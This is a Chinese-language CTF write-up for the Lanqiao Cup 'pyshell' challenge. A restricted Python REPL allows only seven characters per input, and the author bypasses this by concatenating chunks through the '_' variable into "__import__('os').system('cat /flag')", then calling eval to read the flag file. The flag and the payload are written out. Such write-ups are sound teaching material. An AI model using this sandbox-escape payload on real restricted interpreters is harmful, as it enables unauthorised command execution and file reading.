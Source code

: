 ```yaml
---
title: pyshell
date: 2024-03-19 14:31:44
updated: 2024-11-15 21:49:39
categories:
  - 网络安全
  - CTF竞赛
  - 蓝桥杯
  - Misc
tags:
  - 网络安全
  - CTF
  - Misc
permalink: /posts/pyshell/
---
```

# 题目描述

flag在/flag，每个容器只支持同时连接一个客户端。部分指令可能导致容器无响应，如果出现这样的情况请重启题目环境

# 解题思路

下发题目，得到一个nc连接的地址，用nc命令连接

![image-20240221135952641](pyshell/image-20240221135952641.png)

可以看到是一个类似的`shell`窗口，查询得知这是CTF中的伪`python shell`题目；

> 伪Python shell是指一种CTF（Capture The Flag）中的题目类型，它要求我们在一个受限制的Python环境中执行代码，从而获取flag。伪Python shell的特点和作用是考察我们对Python语言的熟悉程度和逆向能力，以及如何利用Python的一些特性来绕过沙箱限制。解决这样的CTF题目的方法有很多，具体取决于题目的限制条件和漏洞点，一般需要利用字符串拼接、类静态方法、反序列化、系统命令等技巧来构造有效的payload。
>



输入一些命令发现全是输出`nop`，根据题目描述，`flag`在`' /flag '`中，所以我们的思路是思路是通过输入python代码执行`shell`命令但是题目过滤了这些命令（如`import print`等）。并且一次发现只能输入7个字符（包括`''`）

![image-20240221141236205](pyshell/image-20240221141236205.png)

所以我们换一个查询思路：`__import__('os').system('cat /flag')`

并且因为题目限制了每次输入的字符数，所以我们需要通过`_+`来连接每次输入的代码：

```python
'__imp'
_+'ort'
_+'__('
_+"'os"
_+"')."
_+"sys"
_+"tem"
_+"('c"
_+"at "
_+"/fl"
_+"ag'"
_+")"
eval(_)
```

> '_'+ 表示在下一个字符串拼接操作之前对字符串进行了临时的拼接操作。例如，代码中的 `_+'ort'` 实际上是 `_ + 'ort'`，表示将上一个字符串 `_` 与 `'ort'` 进行拼接。这种形式的字符串拼接操作用于在代码中以一种连贯的方式构建出整个字符串。

得到`flag{80f772f1-6740-4571-87ba-cf6b3db34581}`

![image-20240221141724401](pyshell/image-20240221141724401.png)

